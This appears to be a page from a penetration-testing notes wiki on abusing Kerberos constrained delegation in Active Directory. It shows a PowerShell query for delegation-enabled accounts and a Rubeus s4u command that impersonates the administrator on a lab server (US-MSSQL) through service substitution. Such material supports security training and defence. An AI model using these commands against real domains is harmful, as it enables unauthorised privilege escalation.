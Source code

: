 # Constrained delegation

Constrained delegation (CD) is similar to [unconstrained-delegation.md](unconstrained-delegation.md "mention"), but in this case the server that has CD can delegate a Kerberos ticket to only a subset of services.

This property is written in the attribute `msDS-AllowedToDelegateTo`.

## List devices that support CD

```powershell
> Get-ADObject -Filter { msDS-AllowedToDelegateTo -ne "$null" } -Properties msDS-AllowedToDelegateTo
DistinguishedName        : CN=appsvc,CN=Users,DC=us,DC=techcorp,DC=local
msDS-AllowedToDelegateTo : {CIFS/us-mssql.us.techcorp.local, CIFS/us-mssql}
Name                     : appsvc
ObjectClass              : user
ObjectGUID               : 4f66bb3a-d07e-40eb-83ae-92abcb9fc04c
```

This means that the user `appsvc` has constrained delegation to the server `US-MSSQL` on the SMB service (CIFS).

## Impersonate privileged user

The user `appsvc` can impersonate any user on the machine `US-MSSQL`. It is even possible to change the service that we want to use, using [s4u.md](s4u.md "mention"):

```powershell
> .\Rubeus.exe s4u /user:appsvc /aes256:<key> /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

_Note: if you only have password of user account, generate hash with `Rubeus hash`._

For cross-domain impersonations (i.e. through trust) specify correct dc with `/dc:<dc>`.

It is then possible to authenticate to `US-MSSQL` ([ad-authentication.md](../misc/ad-authentication.md "mention")) we have domain admin privileges on this machine but we are limited to this machine.
